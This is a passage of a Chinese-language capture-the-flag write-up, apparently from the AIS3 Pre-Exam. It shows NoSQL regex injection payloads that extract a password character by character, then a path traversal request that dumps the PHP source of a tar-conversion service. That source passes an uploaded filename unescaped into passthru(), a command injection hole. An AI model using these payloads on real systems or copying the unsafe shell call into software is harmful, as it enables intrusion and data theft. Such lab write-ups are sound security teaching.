 密碼長度41個字元，接下來就是找密碼了，這裡我們只能一個字元一個字元試，可以用Burp加速這個過程。

```
username[$ne]=toto&password[$regex]=A.{40} -> success
username[$ne]=toto&password[$regex]=B.{40} -> fail
username[$ne]=toto&password[$regex]=AI.{39} -> success
username[$ne]=toto&password[$regex]=AIS.{38} -> success
```

Burp的Intruder功能很好用，但是遇到太奇怪的字元有時候也會爛掉，這時候得要用手動Regex來搞binary search...

```
Regex: [\x00-\x7f] matches all ascii characters
```

歷經千辛萬苦後我們可以得到flag: `AIS3{Bl1nd-b4s3d r3gex n0sq1i?! (:3[___]}`

References: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

## TariTari

這題給了一個可以把檔案變成 .tar.gz 的網站。步驟分為兩步，首先在`/`上傳檔案，然後會得到一個`/download.php`的連結，用來下載檔案。觀察可以發現`download.php`的`file`參數有 path traversal 的問題，於是我們可以dump出原始碼:

```
GET /download.php?file=Li4vaW5kZXgucGhw&name=index.php
```

```php
<h1>Tari</h1>
<p>Tari is a service that converts your file into a .tar.gz archive.</p>
<form action="/" method="POST" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="Upload" />
</form>
<?php
function get_MyFirstCTF_flag()
{
    // **MyFirstCTF ONLY FLAG**
    // Please IGNORE this flag if you are AIS3 Pre-Exam Player

    // Congratulations, you found the flag!
    // RCE me to get the second flag, it placed in the / directory :D
    echo 'MyFirstCTF FLAG: AIS3{../../3asy_pea5y_p4th_tr4ver5a1}';
}

function tar($file)
{
    $filename = $file['name'];
    $path = bin2hex(random_bytes(16)) . ".tar.gz";
    $source = substr($file['tmp_name'], 1);
    $destination = "./files/$path";
    passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
    if ($return === 0) {
        return [$path, $filename];
    }
    return [FALSE, FALSE];
}

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $file = $_FILES['file'];
    if ($file === NULL) {
        echo "<p>No file was uploaded.</p>";
    } elseif ($file['error'] !== 0) {
        echo "<p>Error: Upload error.</p>";
    } else {
        [$path, $filename] = tar($file);
```